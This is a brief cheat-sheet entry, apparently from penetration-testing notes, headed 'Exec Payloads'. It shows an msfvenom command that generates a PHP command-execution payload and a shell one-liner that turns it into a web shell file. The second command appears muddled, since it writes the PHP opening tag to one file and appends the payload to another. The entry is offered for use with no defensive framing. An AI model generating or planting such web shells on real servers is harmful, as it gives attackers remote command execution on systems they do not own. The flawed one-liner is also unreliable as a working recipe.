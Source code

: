 # Exec Payloads

## Execute Webshells Exec Payload

- **PHP**

`$ msfvenom -p php/exec cmd=<commands> -f raw -o exec.php`

`$ cat exec.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> exec.php`
